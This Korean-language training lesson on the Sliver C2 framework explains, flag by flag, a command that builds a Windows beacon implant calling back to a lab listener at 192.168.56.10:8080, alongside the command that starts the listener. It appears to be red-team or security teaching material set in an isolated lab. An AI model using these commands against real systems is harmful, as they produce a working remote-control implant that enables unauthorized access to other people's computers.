

# 5강 — 생성 명령 읽기 { #lesson-5-reading-generation-commands }

**학습 목표:** 생성한 프로그램을 어느 컴퓨터에서 실행할 것이며, 그 프로그램이 어느 주소로 연락할지 설명합니다.

## 실습 역할과 주소 { #lab-roles-and-addresses }

아래 명령은 허가된 격리 실습 환경을 위한 예시입니다. 설명용 주소이며, 실제 환경을 구축했다는 뜻은 아닙니다. 운영자는 Linux에서 Sliver 서버 콘솔을 직접 사용한다고 가정합니다.

| 컴퓨터 | 주소 | 역할 |
|---|---|---|
| Linux 실습 서버 | `192.168.56.10` | Sliver Server와 C2 Listener |
| Windows 실습 PC | `192.168.56.20` | 생성한 Implant 실행 |



프로그램은 **Windows에서 실행**되고 **Linux 서버로 연락**해야 합니다. 서로 다른 설정입니다.

## Listener와 연락 주소 맞추기 { #match-listener-and-callback }

**Sliver 콘솔**에서 기존 Listener를 확인합니다.

```text
jobs
```

필요한 Listener가 아직 실행 중이 아니라면, 2강의 예시로 시작합니다.

```text
http --lhost 192.168.56.10 --lport 8080
```

같은 주소와 포트가 이미 사용 중이라면 Listener를 하나 더 시작하려고 하지 않습니다. Listener는 `192.168.56.10:8080`에서 통신을 받으므로, Implant에도 해당 서비스에 도달할 수 있는 연락 주소를 설정해야 합니다.

## 생성 명령 전체 읽기 { #read-the-generation-command }

설치된 버전의 도움말을 확인한 후 **Sliver 콘솔에 한 줄로 입력**하는 예시입니다.

```text
generate beacon --http http://192.168.56.10:8080 --os windows --arch amd64 --format exe --seconds 60 --jitter 0 --save ./lesson5-beacon.exe
```

| 부분 | 답하는 질문 | 이 예시의 의미 |
|---|---|---|
| `generate beacon` | 무엇을 만드는가? | Beacon Implant |
| `--http http://192.168.56.10:8080` | 어디로 C2 연락을 하는가? | 실습용 HTTP Listener |
| `--os windows` | 어느 운영체제에서 실행되는가? | Windows |
| `--arch amd64` | 어떤 명령어 아키텍처인가? | x86-64 |
| `--format exe` | 어떤 결과물 형식인가? | 실행 파일 |
| `--seconds 60` | 기본 체크인 간격은? | 60초 |
| `--jitter 0` | 무작위 시간 변동을 더하는가? | 이번 관찰 예시에서는 더하지 않음 |
| `--save ./lesson5-beacon.exe` | 결과물을 어디에 저장하는가? | 콘솔 프로그램의 현재 폴더에 지정한 파일로 저장 |

이 예시는 [공식 생성 구현](https://github.com/BishopFox/sliver/blob/master/client/command/generate/generate.go)과 [Beacon 생성 구현](https://github.com/BishopFox/sliver/blob/master/client/command/generate/generate-beacon.go)을 기준으로 합니다. 실제 버전의 옵션도 확인하세요.

```text
help generate beacon
```

## 대상 운영체제와 CPU 아키텍처 { #target-os-and-architecture }

`--os windows`는 **Implant가 실행될 대상**을 지정합니다. Sliver Server가 실행 중인 운영체제를 뜻하지 않습니다. 다른 플랫폼용 프로그램을 만드는 것을 **크로스 컴파일 Cross-compilation**이라고 합니다. 실제 빌드 가능 여부는 도구와 빌드 환경에도 영향을 받습니다.

```text
Request a build from Linux
             ↓
Generate a Windows executable
             ↓
Run the result on the Windows lab PC
```

여기서 `amd64`는 **x86-64**를 뜻하며 AMD 회사의 CPU에만 한정되지 않습니다. 호환되는 Intel CPU에서도 사용할 수 있습니다. ARM64는 다른 아키텍처입니다. 모두 ‘64비트’라는 이유만으로 서로 바꿔 사용할 수는 없습니다.

## C2 연락 주소와 다운로드 주소 { #callback-versus-download }

생성 명령의 `--http`는 **실행된 Implant가 C2 통신에 사용할 주소**입니다. Windows가 생성된 파일을 자동으로 내려받는 주소가 아닙니다.

| 주소의 목적 | 의미 |
|---|---|
| 파일 전달 | Windows가 생성 결과물을 받아오는 곳 |
| C2 연락 | 실행된 Implant가 작업을 받고 결과를 보내는 곳 |

`--http`를 썼다고 결과물이 자동으로 Stager가 되는 것은 아닙니다. 이번 예시는 전체 Beacon 실행 파일을 만들며, 그 파일을 전달하는 과정은 이후의 별도 단계입니다.

## 결과물이 저장되는 위치 { #where-output-is-saved }

`--save`는 대상 PC로 파일을 보내지 않습니다. 현재 사용하는 콘솔 프로그램 쪽 파일시스템에 결과물을 저장합니다. 서버 콘솔이라면 서버 컴퓨터에, 별도 Client라면 Client 쪽에 저장합니다.

따라서 Linux 서버 콘솔에서 `./lesson5-beacon.exe`로 저장했다고 Windows 바탕화면에 파일이 나타나는 것은 아닙니다. 실제 저장 완료 메시지의 위치를 확인하세요.

## 시간 설정과 실제 관찰 시각 { #timing-configuration }

예시에서는 시간 흐름을 관찰하기 쉽게 기본 간격을 60초로, 추가 지터를 0으로 지정합니다. 실제 통신 시각에는 작업 처리, 스케줄링, 네트워크 상태 등이 영향을 줄 수 있습니다.

또한 **최초 등록**과 **이후 반복 체크인**을 구분하세요. 이 옵션이 새 Implant는 실행 후 첫 60초 동안 반드시 아무 연락도 하지 않는다는 뜻은 아닙니다.

## 생성으로 확인한 범위 { #verify-generation }

**Sliver 콘솔**에서 확인합니다.

```text
implants
```

빌드 항목, 생성 결과, 표시된 저장 경로를 확인합니다. 생성 성공으로 빌드와 결과물이 만들어졌다는 근거를 얻을 수 있습니다. 대상 전달, 실행, 등록, 반복 체크인, 원격 작업 완료까지 입증한 것은 아닙니다.

## 확인 문제 { #review-questions }

1. Sliver Server는 Linux, 대상 PC는 Windows입니다. `--os`에는 무엇을 지정해야 할까요?
2. 서버는 `192.168.56.10`, 대상은 `192.168.56.20`입니다. 이번 예시에서 `--http`에는 어느 주소를 넣어야 할까요?

??? success "정답과 해설"
    **1. `windows`입니다.** Implant가 실행될 운영체제를 지정합니다.

    **2. `http://192.168.56.10:8080`입니다.** Implant는 대상 PC 자신의 주소가 아니라 C2 서버의 Listener에 연락합니다.

    명령을 ‘Windows에서 실행되고 192.168.56.10:8080으로 연락하는 Beacon 실행 파일을 만들어라’라고 읽으면 됩니다. 파일 전달과 대상에서의 실행은 다음 단계입니다.

[6강 — 전달·실행·연결 증거로 이동](lesson-6-delivery-execution-and-evidence.md)
